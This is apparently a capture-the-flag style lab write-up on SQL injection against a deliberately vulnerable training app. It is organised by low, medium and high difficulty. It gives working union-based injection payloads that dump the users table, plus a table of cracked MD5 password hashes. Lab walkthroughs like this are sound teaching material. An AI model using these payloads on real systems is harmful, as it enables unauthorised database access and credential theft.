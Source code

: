 # SQL Injection

Objective

There are 5 users in the database, with id's from 1 to 5. Your mission... to
steal their passwords via SQLi.

## low

First we try `' or 1=1;#` and the server sends us the first name and surname
of all users, which means there's a SQLI point after `'`.  
Use `UNION` instead to steal any two columns from the table, in this case `user` and `password`.

```sql
' UNION SELECT user, password FROM users;#
```

Then we get some users and their passwords in MD5 hex digest.  
Let's crack those digest with [cmd5](https://www.cmd5.com).

user|password(hash)|password
-|-|-
admin|`5f4dcc3b5aa765d61d8327deb882cf99`|password
gordonb|`e99a18c428cb38d5f260853678922e03`|abc123
1337|`8d3533d75ae2c3966d7e0d4fcc69216b`|charley
pablo|`0d107d09f5bbe40cade3de5c71e9e9b7`|letmein
smithy|`5f4dcc3b5aa765d61d8327deb882cf99`|password

## medium

In this level our single quote is filtered by `mysql_real_escape_string()`.  
However, POST param "id" is interpreted as an integer, thus creating a
SQLI point without escaping characters.

```sql
-1 UNION SELECT user, password FROM users;#
```

## high

Basically the same as low level, except that we're redirected to a new page to
submit our query.

```sql
' UNION SELECT user, password FROM users;#
```
